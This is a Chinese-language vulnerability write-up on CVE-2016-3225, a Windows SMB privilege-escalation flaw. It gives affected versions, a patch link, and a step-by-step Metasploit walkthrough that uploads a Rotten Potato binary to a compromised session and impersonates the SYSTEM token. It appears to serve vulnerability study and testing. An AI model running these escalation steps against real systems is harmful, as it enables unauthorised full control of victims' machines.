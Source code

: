 ### CVE-2016-3225

#### 描述

Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | &#10004; |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-3225
```

#### 利用方式

> 注意：需要用管理员权限运行MSF生成的文件才能提权到system权限

Windows 7 SP1 x64测试中，使用`whoami /priv`命令查看发现并无**SeImpersonatePrivilege**特权烂土豆提权需要该特权为开启状态，所以测试的时候直接用管理员权限运行

![image-20200819140202765](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64.png)

利用MSF+烂土豆提权，首先我们假定机器已经上线，通过msf中自带的插件来识别当前系统中可以利用的EXP来进行提权

```
use multi/recon/local_exploit_suggester
set session 1 #当前机器的session
run
```

如果没有用管理员权限运行MSF生成的exe的话，脚本检测是这样的

![image-20200819112155945](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64_msf_1.png)

如果使用管理员权限运行的话检测是这样的，可以看到比上面多了个ms16_075

![image-20200819140819782](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64_msf_2.png)

编译好烂土豆的文件

```
potato.exe
```

接着上传编译好的文件

```
upload /Users/ascotbe/Downloads/Potato.exe C:/Users/ascotbe #上传potato.exe到目标机器中的C:\Users\ascotbe目录下,msf无法识别\符号所以必须使用/符号
```

然后执行如下命令即可提权成功了

```
use incognito #加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户)
list_tokens -u #列出目标主机用户的可用令牌
execute -cH -f C:/Users/ascotbe/potato.exe #创建新的进程
list_tokens -u #列出目标主机用户的可用令牌
impersonate_token "NT AUTHORITY\SYSTEM"#假冒目标主机上的可用令牌
```

![image-20200819141240274](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64_msf_3.png)

进入shell查看

![image-20200819141337651](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64_msf_4.png)

> 第二种利用方式

编译方式

- VS2019（V141）X64 Release

由于普通账号没有**SeImpersonatePrivilege**特权，这边用管理员账号来演示，利用程序**potatoNG.exe**直接上GIF图

![4](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64.gif)

